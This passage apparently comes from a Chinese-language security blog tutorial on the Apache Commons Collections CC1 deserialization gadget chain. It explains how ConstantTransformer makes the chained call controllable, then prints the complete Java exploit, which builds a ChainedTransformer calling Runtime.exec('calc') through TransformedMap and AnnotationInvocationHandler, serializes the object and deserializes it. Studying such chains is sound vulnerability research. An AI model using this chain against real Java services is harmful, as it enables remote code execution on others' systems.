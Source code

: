 

<h1 id="mT0pb">三:最终的链子</h1>
<h2 id="eR9m8">0x3.1: exp</h2>

```
到这里你以为结束了吗？并没有老弟，我们还得需要解决最后最后一个问题，那就是SetValue里面的内容不可以控制，我们希望的内容是Runtime.class，看到这里不着急抽根烟喝口水，然后我们接着往下看，
ChainedTransformer中也会执行transform并且可以减少我们的代码量下面是修改后的(图一)，你心想我不想减少代码量你就告诉我怎么控制我们需要控制的地方，其实这一步是必要的为什么这么说接着往下看
ConstantTransformer(图二)，可以看到构造方法修改了一个属性，然后transform直接返回了，我相信你看我文章之前也看了别人的你应该最难理解的是这一块的意义在哪为什么修改这里Setvalue内容就可以控制了呢？
那是因为既然可以循环执行transform那么在执行到这个的时候虽然参数不可以控制但是我们修改了这里的属性直接给我return到下一次循环的时候object就已经被修改掉了所以这也是为什么修改这里就达到可控的目的（图三）。
```

```java
//我是修改后的
Transformer[] transformers = new Transformer[]{

new InvokerTransformer("getMethod",
        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke"
        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

![](https://xinyisleep.github.io/img/2025/commons-collections/14.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/14.5.png)

![](https://xinyisleep.github.io/img/2025/commons-collections/15.png)

```
到这里就可以结束了 下面是完整的cc1链的exp,
new ConstantTransformer(Runtime.class),
这个就是控制SetValue的代码。
```

```java
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
        new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
new InvokerTransformer("invoke"
        , new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
Object transform = new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
Object transform1 = new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(transform);
InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
Object put = objectObjectHashMap.put("value", "value");
Map<Object, Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, chainedTransformer);
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, decorate);
serialize(o);
unserialize("ser.bin");
```